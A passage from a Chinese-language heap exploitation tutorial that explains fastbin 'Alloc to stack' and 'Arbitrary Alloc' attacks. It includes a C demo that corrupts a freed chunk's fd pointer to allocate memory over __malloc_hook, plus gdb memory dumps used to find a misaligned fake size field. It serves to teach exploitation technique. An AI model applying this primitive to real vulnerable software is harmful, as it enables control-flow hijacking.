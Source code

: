 ```
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```


### 小總結
通過該技術我們可以把 fastbin chunk 分配到棧中，從而控制返回地址等關鍵數據。要實現這一點我們需要劫持fastbin 中 chunk 的 fd 域，把它指到棧上，當然同時需要棧上存在有滿足條件的size值。

## Arbitrary Alloc

### 介紹

Arbitrary Alloc 其實與 Alloc to stack 是完全相同的，唯一的區別是分配的目標不再是棧中。
事實上只要滿足目標地址存在合法的 size 域（這個 size 域是構造的，還是自然存在的都無妨），我們可以把 chunk 分配到任意的可寫內存中，比如bss、heap、data、stack等等。

### 演示
在這個例子，我們使用字節錯位來實現直接分配 fastbin 到**\_malloc_hook的位置，相當於覆蓋_malloc_hook來控制程序流程。**
```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1af5-0x8;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```
這裏的0x7ffff7dd1af5是我根據本機的情況得出的值，這個值是怎麼獲得的呢？首先我們要觀察欲寫入地址附近是否存在可以字節錯位的情況。
```
0x7ffff7dd1a88 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a90 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a98 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1b00 0x20	0x2e 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b08 0x0	0x2a 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>:	0x30	0x28	0xa9	0xf7	0xff	0x7f	0x0	0x0
```
0x7ffff7dd1b10 是我們想要控制的 __malloc_hook 的地址，於是我們向上尋找是否可以錯位出一個合法的size域。因爲這個程序是 64 位的，因此 fastbin 的範圍爲32字節到128字節(0x20-0x80)，如下：
```
//這裏的size指用戶區域，因此要小2倍SIZE_SZ
```